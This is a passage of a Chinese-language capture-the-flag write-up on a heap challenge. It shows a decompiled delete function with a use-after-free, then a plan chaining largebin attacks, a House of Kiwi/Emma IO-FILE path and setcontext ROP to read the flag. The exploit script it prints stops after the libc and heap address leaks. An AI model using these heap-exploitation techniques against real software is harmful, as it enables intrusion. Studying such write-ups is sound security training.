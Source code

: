 ```bash
void __fastcall sub_1536(__int64 a1)
{
  unsigned __int8 v1; // [rsp+1Fh] [rbp-1h]

  v1 = *(a1 + 1);
  if ( v1 > 0x10u || !qword_4040[v1] )
  {
    puts("Invalid idx");
    _exit(0);
  }
  free(qword_4040[v1]);
}
```

### 分析利用

申请的堆块在 0x410 到 0x500 之间，delete 中有 UAF 漏洞

主函数的循环无法退出，也就是无法从主函数返回，所以我们要利用 House of kiwi 的思想来触发 IO

具体思路如下

1.  使用 largeBin Attack 来在 stderr 指针处写一个可控地址
2.  使用 largeBin Attack 在\_\_pointer\_chk\_guard 处写一个已知地址
3.  通过写入的已知地址与需要调用的函数指针进行构造加密，同时构造出合理的 IO\_FILE 结构
4.  利用 Unsorted Bin 会与 Top Chunk 合并的机制来修改 Top Chunk 的 Size，触发 malloc\_assert
5.  进入 House\_OF\_Emma 的调用链，同时寻找一个能够转移 rdi 到 rdx 的 gadget，利用这个 gadget 来为 Setcontext 提供内容
6.  利用 Setcontext 来执行 ROP 来 ORW

### 解题过程

```bash
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))
```

首先拿到 libc 基址和堆地址
